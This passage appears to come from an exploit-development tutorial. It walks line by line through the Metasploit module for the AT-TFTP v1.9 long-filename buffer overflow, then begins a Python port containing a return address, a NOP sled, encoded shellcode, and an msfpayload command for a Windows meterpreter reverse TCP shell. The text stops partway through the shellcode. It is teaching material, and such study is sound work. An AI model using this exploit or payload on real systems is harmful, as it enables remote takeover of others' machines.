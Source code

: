 **`connect_udp`** signifies that the exploit will be sent over UDP packets. This line connects sets the target as the values in Metasploit such as RHOST and RPORT.

**`sploit = "\x00\x02" + make_nops(25 - datastore['LHOST'].length)`** : exploit is started with two hex values, ‘0x00’ and ‘0x02’ followed by a series of NOPs. The nops component is going to be variable in length depending on the length of your LAN IP, but always totaling 25 in total. As an example the LHOST value of ‘192.168.1.2’ has a length of 11, while an IP address of ‘192.168.100.123’ has a length of 15

**`sploit << payload.encoded`** This line encodes the payload specified within Metasploit and encodes it in the required format. Metasploit will internally determine what payloads are suitable given the space available and the target operating system, and they can be viewed with the ‘show payloads’ command. When we say ‘required format’ it means that it will exclude the nominated bad characters earlier in the exploit.

**`sploit << [target['Ret']].pack('V'):`** This command will append the target return address into the exploit string. It’s presented as a variable here because within Metasploit you can nominate different operating systems, but for our purposes it will just be the Windows XP SP3 return address. The pack ‘V’ command signifies that it needs to be packed in little endian format, necessary for x86 processors.

**`sploit << "\x83\xc4\x28\xc3"`** Translated into commands, this is instructing the esp register to add 40 bytes and return. Necessary to position esp correctly for our exploit.

**`sploit << "\x00" + "netascii" + "\x00"`** The final string of our exploit, this terminates the data stream in a format AT-TFTP is expecting.

**`udp_sock.put(sploit)`** This instructs Metasploit to send the exploit via UDP.

**`disconnect_udp:`** Self explainitory but this signifies it has finished with the UDP socket.

**Let’s summarize what we need to achieve in our own exploit for it to get working based on the above highlighted areas.**

* Create an appropriately sized NOP sled based off the size of LHOST
* Nominate the return address and pack it in little endian format
* Generate shellcode suitable for our situation \(LHOST, etc\)
* Perform stack adjustment on the shellcode so our second stage can write correctly
* Send the exploit over UDP with Python

```python
# AT-TFTP v1.9 Exploit
# Written for NetSec.ws
 
import sys, socket
 
# Use in the form "python attftp_long_filename.py <Target IP Address> <Port> <Your IP Address>"
 
host = sys.argv[1]		# Recieve IP from user
lhost = sys.argv[3]
port = int(sys.argv[2])		# Recieve Port from user
 
ret = "\x53\x93\x42\x7e" 	# Return address - Source Metasploit (Little Endian)
nop = "\x90" * (25-len(lhost))	# Create a NOP string as to bring NOPs + LHOST up to 25 bytes
 
#msfpayload windows/meterpreter/reverse_nonx_tcp LHOST=192.168.1.2 LPORT=443 EXITFUNC=process R > payload
#cat shellcode | msfencode -b '\x00' -e x86/shaikata_ga_nai -t python
#[*] x86/shikata_ga_nai succeeded with size 210 (iteration=1)
 
buf =  ""
buf += "\xbb\xd2\x8c\x3a\x78\xdb\xd2\xd9\x74\x24\xf4\x58\x31"
buf += "\xc9\xb1\x2e\x31\x58\x15\x03\x58\x15\x83\xc0\x04\xe2"
buf += "\x27\x0d\xd6\xd4\xca\x0e\x27\xd9\xbe\xe5\x60\xc9\xc7"
buf += "\x05\x91\xf6\x57\xcb\xb5\x82\xea\x17\xc1\xe9\x29\x10"
buf += "\xd4\xfe\xda\xb7\xf6\x01\x36\xbc\xc3\x9b\xc7\x2d\x1a"
buf += "\x5c\x5e\x1d\x9c\x96\x6d\x5f\xdd\xa3\xad\x2a\x17\xe8"
buf += "\x4b\xec\x1d\x9a\x70\x45\x29\x2a\x52\x5b\xc4\xd3\x11"
```